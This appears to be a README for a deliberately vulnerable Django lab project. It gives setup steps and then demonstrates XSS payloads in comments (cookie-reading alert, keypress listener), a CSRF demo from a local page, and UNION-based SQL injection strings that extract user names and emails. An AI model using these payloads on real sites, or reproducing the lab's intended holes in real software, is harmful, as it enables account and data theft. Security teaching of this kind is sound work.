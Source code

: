 This project can make the xss attack, csrf attack, sql inject attack.

The main reference is , <a href="https://whitehatways.com/cross-site-scripting-and-cookies-a-delicious-disaster/">linked here</a>, first download this project to your local computer. 

1. Install requirements with
<code>python3 -m pip install -r requirements.txt</code>

2. Run the following commands to get Django up and going!
<br><code>python ./manage.py makemigrations</code>
<br><code>python ./manage.py migrate</code>
<br><code>python ./manage.py createsuperuser</code>
<br>&emsp; Following the prompts here!
<br><code>python seed.py</code>

3. Run the server
<br>Run <code>python ./manage.py runserver</code> to begin!

4. To XSS
The post page can add comment and show the comments written by logged or anonymous users. So the anonymous users can 
inject the script code in the comments by XSS. Everyone open the post page will trigger the xss code which may leak
users information such like cookies, passwords and affect the use of the website.

some xss code like:
- steal cookies from logged-in users
```html
<script>alert(document.cookie.split('; ')[1]);</script>
```
- alert something to interference 
```html
<script>alert('You've been hacked');</script>
```
- Listen to the user's keyboard input
```html
<script>document.addEventListener('keypress', function (event) {console.log(event.key)})</script>
```

5. To CSRF
To CSRF We need to open a fake website by http server use following bash code
```bash
python -m http.server 8080
```
when you in the logged in the website, and Visit the `127.0.0.1:8080`. 
You commented on something that was not manned by you

6. To sql injection
The home page have a search input which have risks of SQL injection,
We can inject the database by some SQL code such like:
- get django user list
```sql
z' UNION SELECT first_name FROM auth_user WHERE first_name LIKE '
```
- get the email of django user 
```sql
z' UNION SELECT mail FROM auth_user WHERE first_name LIKE '
```

Happy Hacking! :)